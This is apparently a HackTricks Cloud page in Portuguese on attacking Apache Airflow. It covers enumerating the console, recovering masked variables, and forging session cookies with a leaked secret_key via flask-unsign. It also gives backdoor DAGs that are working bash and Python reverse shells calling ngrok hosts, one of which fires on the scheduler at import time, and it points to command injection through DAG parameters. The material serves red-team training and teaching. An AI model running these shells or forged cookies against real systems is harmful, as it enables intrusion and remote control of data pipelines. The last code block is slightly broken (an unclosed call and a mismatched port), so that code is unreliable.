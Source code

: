 # Segurança do Apache Airflow

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) serve como uma plataforma para **orquestrar e agendar pipelines de dados ou fluxos de trabalho**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos originados de várias fontes. O principal objetivo desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e consumíveis. Esses conjuntos de dados são amplamente utilizados por uma infinidade de aplicações, incluindo, mas não se limitando a ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos os quais são fundamentais para o funcionamento de aplicações de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontecer**.

### Laboratório Local

#### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lançar um ambiente docker completo do apache airflow. (Se você estiver no MacOS, certifique-se de dar pelo menos 6GB de RAM para a VM do docker).

#### Minikube

Uma maneira fácil de **executar o apache airflow** é executá-lo **com minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como as permissões funcionam**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeração do Console Web

Se você tiver **acesso ao console web**, pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse-as em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como **`secret_key`** e senhas podem ser armazenadas aqui)
* Liste **usuários e funções**
* **Código de cada DAG** (que pode conter informações interessantes)

#### Recuperar Valores de Variáveis

As variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tiver **permissões suficientes**, pode acessá-las na GUI em `http://<airflow>/variable/list/`.\
O Airflow, por padrão, mostrará o valor da variável na GUI, no entanto, de acordo com [**isso**](https://marclamberti.com/blog/variables-with-apache-airflow/), é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (164).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (você precisa ter acesso ao DB), execução de **DAG** arbitrário, **API** acessando o endpoint de variáveis (a API precisa estar ativada) e **até mesmo a própria GUI!**\
Para acessar esses valores pela GUI, basta **selecionar as variáveis** que você deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** no **valor oculto** usando o **filtro de pesquisa** até obtê-lo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalação de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir da **função Usuário** e **acima**, pode-se **ler** a **configuração na web**. Nessa configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com isso válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE em trabalhador Airflow)

Se você tiver **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que enviará para você um **reverse shell.**\
Observe que este reverse shell será executado dentro de um **container de trabalhador airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE no agendador do Airflow)

Se você definir algo para ser **executado na raiz do código**, no momento da escrita deste texto, ele será **executado pelo agendador** após alguns segundos depois de colocá-lo dentro da pasta do DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, pode criar novos **scripts de DAG** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

#### Injeção de Código em DAG

Quando você executa um DAG pela GUI, pode **passar argumentos** para ele.\
Portanto, se o DAG não estiver devidamente codificado, ele pode ser **vulnerável a Injeção de Comando.**\
Foi isso que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comando em DAGs** é que **parâmetros** são **acessados** com o código **`dag_run.conf.get("param_name")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (note que com privilégios suficientes você poderia **controlar o valor das variáveis** na GUI). Variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se forem usados, por exemplo, dentro de um comando bash, você pode realizar uma injeção de comando.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
